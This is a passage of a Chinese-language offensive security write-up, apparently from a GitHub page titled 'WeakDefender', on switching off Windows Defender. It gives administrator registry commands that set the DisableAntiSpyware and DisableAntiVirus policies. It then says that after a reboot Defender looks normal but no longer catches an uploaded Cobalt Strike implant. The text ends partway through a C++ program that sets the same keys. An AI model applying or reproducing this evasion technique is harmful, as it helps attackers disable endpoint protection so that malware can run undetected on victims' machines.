​	

启用管理员权限打开cmd，执行如下命令修改注册表：

```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t reg_dword /d 1 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiVirus /t reg_dword /d 1 /f
```

![image-20230823122459298](WeakDefender/image-20230823122459298.png)



修改完注册表后还需重启操作系统才算真正的关闭Defender。重启系统后，虽然defender看起来是正常运行的，但是我们上传一个CS马上去它也不会查杀

<img src="WeakDefender/image-20230823122528707.png" alt="image-20230823122528707" style="zoom:67%;" />		



## 代码实现

```cpp
#include <windows.h>
#include <iostream>

// 设置注册表键值的函数
bool SetRegistryValue(HKEY hRootKey, LPCSTR subKey, LPCSTR valueName, DWORD data) {
    HKEY hKey;
    // 打开指定的注册表键
    LONG result = RegOpenKeyEx(hRootKey, subKey, 0, KEY_SET_VALUE, &hKey);
    
    if (result != ERROR_SUCCESS) {
        std::cerr << "打开注册表键失败: " << subKey << " 错误码: " << result << std::endl;
        return false;
    }

    // 设置指定的注册表键值
    result = RegSetValueEx(hKey, valueName, 0, REG_DWORD, (BYTE*)&data, sizeof(DWORD));
```